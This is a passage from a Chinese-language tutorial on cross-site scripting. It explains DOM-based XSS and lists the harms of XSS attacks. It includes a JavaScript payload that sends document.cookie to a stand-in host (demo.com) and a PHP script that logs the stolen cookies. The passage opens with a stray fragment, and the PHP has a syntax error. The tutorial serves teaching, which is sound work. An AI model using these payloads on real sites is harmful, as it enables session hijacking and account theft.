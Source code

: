 ```php
   
}

?>
```



#### DOM型XSS

DOM型XSS也是反射型的一种，不过比较特殊。它不会和服务器发生交互，它通过修改页面的DOM节点来形成XSS漏洞。我们可以通js脚本DOM进行编辑从而修改页面的元素。也就是说，客户端的脚本可以通过DOM来动态修改页面内容，从客户端获取DOM中的数据并在本地执行。

demo:

```javascript
<script> 
    var img=document.createElement("img");
	img.src="http://demo.com/cookie?"+escape(document.cookie);
</script>
```



### XSS危害

* Cookie盗取

  服务器端脚本：

  ```php
  #http://demo.com/xss_cookie.php
  <?php
      $cookie = $_GET['cookie'];
  	$log = fopen("cookie.txt","a");
  	fwrite($log, $cookie."\n")
      fclose($log);
  ?>
  ```

  在存在XSS漏洞的地方插入下面的代码:

  ```javascript
  <script>
  var img = document.createElement("img");
  img.src = "http://demo.com/xss_cookie.php?cookie="+escape(document.cookie);
  </script>
  ```

* 钓鱼（伪造登录框页面）

* 获取内网IP段

  参考这篇文章 https://toutiao.io/posts/8urlis/preview 

* 站点重定向

* 获取客户端页面信息

* XSS蠕虫
